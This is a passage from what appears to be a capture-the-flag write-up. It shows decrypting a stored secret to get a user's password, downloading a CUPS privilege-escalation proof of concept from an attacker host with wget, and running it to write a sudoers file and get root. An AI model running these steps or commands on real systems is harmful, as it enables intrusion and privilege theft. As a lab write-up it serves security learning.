
Ran it, and out came Skyp0rt_Relay!26:
www-data@portal:~/portal$ php -r '
require "/var/www/portal/vendor/autoload.php";
$s = new yii\base\Security();
$key = "IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr";
$blob = "u0E7OgbBeWhhPn1HajsFMDg0ZDJhNzUwZTUyNGMxYjBlZDk0MGFkZWE5MmEyMzc0ZjhmMmM4OGNiNTRiNDAzZTA2YWFjM2U5OWU2YWIzMGUPrGNmIwqUOPL3Y0gahxRF5wvwsBHdA3Pf4+d1XnQ4I3W/cqDF7Pr/58qVfPoNl5w=";
echo $s->decryptByKey(base64_decode($blob), $key) . "\n";
'
Skyp0rt_Relay!26user.txt
And that's aporter's password. su later, password accepted, and the box
finally gives you something nice:
www-data@portal:~/portal$ su aporter
Password: Skyp0rt_Relay!26
aporter@portal:/var/www/portal$ whoami
aporter
aporter@portal:/var/www/portal$ cat ~/user.txt
fdc4f4df6f3e82dbf00d38c10bba823cShell as root
Local Port Enumeration
Checked listening ports on the box itself, because nmap through chisel never showed this one — it's bound to localhost only. lol.
aporter@portal:~$ ss -tlnp
State Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0 80 127.0.0.1:3306 0.0.0.0:*
LISTEN 0 4096 127.0.0.53%lo:53 0.0.0.0:*
LISTEN 0 4096 0.0.0.0:22 0.0.0.0:*
LISTEN 0 511 0.0.0.0:80 0.0.0.0:*
LISTEN 0 4096 127.0.0.1:631 0.0.0.0:*
LISTEN 0 4096 127.0.0.54:53 0.0.0.0:*
LISTEN 0 4096 [::1]:631 [::]:*
LISTEN 0 4096 [::]:22 [::]:*
LISTEN 0 511 [::]:80 [::]:*CUPS 2.4.16
Port 631 is IPP, which means CUPS. Checked the usual paths and found exactly
what the docs say should be there (cups-files.conf):
aporter@portal:~$ ls /var/log/ | grep cup
cups
aporter@portal:~$ ls /var/log/cups
access_log error_log page_logThe help page also gives the version away for free:
aporter@portal:~$ curl http://localhost:631/help
<!DOCTYPE HTML>
<html>
<head>
...
<title>Online Help - CUPS 2.4.16</title>
</head>
<body onload="check_cookies();">
...
<li><a href="/admin">Administration</a></li>
<li><a href="/printers/">Printers</a></li>
...
</body>
</html>CUPS 2.4.16 — vulnerable to a local privesc: CVE-2026-34990. Grabbed the PoC on my attacker box and passed it down the chain: attacker → contractor → aporter.
aporter@portal:~$ wget http://10.13.37.182:8000/poc.py
--2026-10-23 06:34:28-- http://10.13.37.182:8000/poc.py
Connecting to 10.13.37.182:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6621 (6.5K) [text/x-python]
Saving to: 'poc.py'
poc.py 100%[===================>] 6.47K --.-KB/s in 0s
2026-10-23 06:34:28 (431 MB/s) - 'poc.py' saved [6621/6621]
aporter@portal:~$ python3 poc.py
[*] CVE-2026-34990 | user=aporter | cupsd=127.0.0.1:631
[*] coercing cupsd -> rogue server ...
[+] captured token: 0B90769A16E5014306E34C85EC63FEF5
[*] writing sudoers ...
[+] wrote /etc/sudoers.d/aporter-pwn
[+] ROOT: uid=0(root) gid=0(root) groups=0(root)
[*] run: sudo -i
aporter@portal:~$ sudo -i
root@portal:~# cat /root.txt
cat: /root.txt: No such file or directory
root@portal:~# cat /root/root.txt
58b220f015e4f6aa12aad69ce6440333🔴 And there it is:58b220f015e4f6aa12aad69ce6440333. Yes, it lives in/root/root.txt, not/root.txt— I absolutelycatthe wrong path first, as you can see. Every box needs at least one dumb moment.

Takeaways
GG, Layover. Cloning wlan2 into mon2 is still my favorite part of
this one — instead of using the empty wlan3 that was just sitting there, we
built our own monitor interface from scratch.
The chain itself is a good reminder that "internal" is not the same as "trusted": a
workstation password reused for sudo, cleartext WiFi traffic, secrets living
in .env, and a localhost-only printing service were enough to go from a
contractor login to root.